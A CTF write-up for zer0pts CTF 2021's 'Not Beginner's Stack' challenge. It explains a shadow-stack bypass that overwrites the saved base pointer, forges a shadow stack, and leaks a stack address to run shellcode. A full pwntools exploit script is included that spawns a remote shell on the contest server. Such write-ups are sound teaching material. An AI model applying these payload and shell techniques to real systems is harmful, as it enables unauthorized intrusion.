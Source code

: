 # [zer0pts CTF 2021](https://2021.ctf.zer0pts.com) - "Not Beginner's Stack"

## Challenge

### Description

Elementary pwners love to overwrite the return address. This time you can't!
`nc pwn.ctf.zer0pts.com 9011`

### Files

```
not_beginners_stack_0956db1b183fd1e9877f64c713871f3b.tar.gz/
  not_beginners_stack/
    chall
    FOR_BEGINNERS.md
    main.S
```

## Analysis

The tarball contains a file `FOR_BEGINNERS.md` explaining the stack, how stack buffer overflows are normally used to overwrite the return pointer and why it won't work in this challenge since `call`/`ret` are replaced with `jmp`s reading return pointers from a "shadow stack" stored in the `.bss` section. It also provides a hint on what can be done instead, i.e. overwriting the base pointer.

We are given the assembly code `main.S` of the challenge binary, so there is not much reverse engineering required to craft an exploit. I use `objdump -d -M intel chall` to find the raw addresses and generated labels I need.

`checksec` on `chall`:
```
[*] "/home/luca/projects/zer0pts CTF/pwn/Not Beginner's Stack/not_beginners_stack/chall"
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
This should be easy.[1]

The output of `checksec` is especially important for this challenge as it correctly reports the stack to be executable *in theory*, which it is not on my local machine or, apparently, on modern kernels in general.[2] This means that we cannot get the shellcode part of my exploit to work locally, but at least it works on the remote.

> It works on their machine. — Then we'll ship their machine.

With the return addresses on a shadow stack, we need to find a way to write there. Since `rbp` is still saved to the "regular" stack, we can overwrite it with a pointer into the data segment (the address of which is known because of `No PIE`) using the vulnerable `read` in `vuln` (reading up to 4096 bytes into a 256-byte stack buffer). Then, the `leave` instruction at the end of `vuln` sets `rsp` to the current base pointer and pops `rbp` off the stack, thus setting it to our desired value. The subsequent `read` in `notvuln` now writes a shiny new shadow stack to `[rbp-0x100]`.

## Exploit

My exploit requires the current `stable` version of `pwntools` (`4.3.1` at the time of writing).

```python
#!/usr/bin/env python3

from pwn import *

BINARY = 'not_beginners_stack/chall'
```

I implemented my own little helper class for building the shadow stack, similar to `pwntools`' `ROP`.

```python
class ShadowStack:
    def __init__(self, binary):
        self.binary = binary
        self.depth = 0
        self.stack = b''
        self.meta = []

    def __getattr__(self, sym):
        addr = self.binary.symbols[sym]
        def call(*args):
            if args:
                raise NotImplementedError
            self.call(addr, sym)

        return call

    def call(self, addr, meta=None):
        self.depth += 1
        self.stack = p64(addr) + self.stack
        self.meta.append(meta)

    def chain(self, length=None):
        return flat({0x0: p32(self.depth), 0x6: self.stack}, length=length)

    def dump(self):
        stack = self.stack
        dump = [f'__stack_depth: {self.depth}', '__stack_shadow:']
        for i, m in enumerate(self.meta):
            addr = int.from_bytes(stack[-8:], context.endian)
            stack = stack[:-8]
            dump.append(f'  [{len(self.meta)-i-1}] {hex(addr)} ' + (m or '<raw>'))
        return '\n'.join(dump)
```

The first part of the exploit builds a new shadow stack used to overwrite the current one as described above:
1. `notvuln()` — `enter`s twice, but `leave`s only once; the second `enter` pushes an address to the regular stack onto it
2. `vuln()` — `enter`s the second stack frame from the previous call again, `rdi`, `rsi` and `rdx` will be set to `0`, `[rbp-0x100]` and `0x1000`, respectively
3. `0x400115()`[3] — set `rdi` to `1`, then call `write`, then `read`; this leaks 4096 bytes of stack memory and reads some shellcode onto the stack; the aforementioned stack address is at offset `0x100` in the leak
5. `..@9.return_address()` — `leave` to set `rbp` to `[__stack_shadow+0x100]`
6. `..@5.return_address()` — read another shadow stack
7. `exit()` — not used in the final exploit, cleanly exit when testing e.g. the leak

```python
context(binary=BINARY)
elf = context.binary

shadow = ShadowStack(elf)
shadow.notvuln()
shadow.vuln()
#shadow.call(0x40018a)
shadow.call(0x400115)
getattr(shadow, '..@9.return_address')()
getattr(shadow, '..@5.return_address')()
shadow.exit()
print(shadow.dump())
```

Send/receive data as described above or required for `read` to continue:

```python
shellcode = asm(shellcraft.sh())

#conn = process(BINARY)
conn = remote('pwn.ctf.zer0pts.com', 9011)

#gdb.attach(conn)

# regular i/o
conn.sendafter(b'Data: ', flat({0x100: elf.symbols['__stack_depth']+0x100})) # overwrite rbp
conn.sendafter(b'Data: ', shadow.chain(0x100)) # overwrite shadow stack

# shadow.notvuln()
conn.sendafter(b'Data: ', b'A')
conn.sendafter(b'Data: ', b'A')

# shadow.vuln()
conn.sendafter(b'Data: ', b'A')

leak = conn.recvn(0x1000)
#print(hexdump(leak))

# shadow.call(0x40018a)
#conn.send(flat({0x0: shellcode, 0x100: elf.symbols['__stack_depth']+0x100}, length=0x1000))

# shadow.call(0x400115)
conn.send(flat(shellcode, length=0x100))
```

The second part of the exploit consists of extracting the leaked stack address and building another shadow stack to jump to the shellcode at `stack_addr-0x100`:

```python
stack_addr = int.from_bytes(leak[0x100:0x108], context.endian)
print('Leaked address:', hex(stack_addr))

# getattr(shadow, '..@5.return_address')()
shadow = ShadowStack(elf)
shadow.call(stack_addr-0x100)
conn.send(shadow.chain(0x100))
#conn.send(p32(1))

conn.interactive()
```

(For testing the leak, we can send `1` instead of the shadow stack. The process then returns to `exit` instead of the shellcode to terminate itself after the leak.)

This will give us a shell from which we can run `cat flag-*.txt`. Yay!

```
zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```

Sometimes the script will hang when reading the leak. `Ctrl-C` and running it again works for me.

## Footnotes

1. It still took me way too long to get to a working exploit or even the leak.
2. It could have been even easier: As it turns out, not only is the stack executable, but the data segment as well.
3. I originally intended to use `0x40018a` here since it would ensure that the following `leave` (which would also be included, rendering `..@9.return_address` unnecessary) loads `[__stack_shadow+0x100]` into `rbp` by writing that address to the stack again. However, the value is already there and I did not want to print another prompt or otherwise separate the final two unconditional `send`s, so I chose to use `0x400115` and write as much bytes as would be consumed. Writing as much bytes as `read` would consume at `0x40018a` did not work — overflowing the buffer with 4096 bytes lead to a segmentation fault.
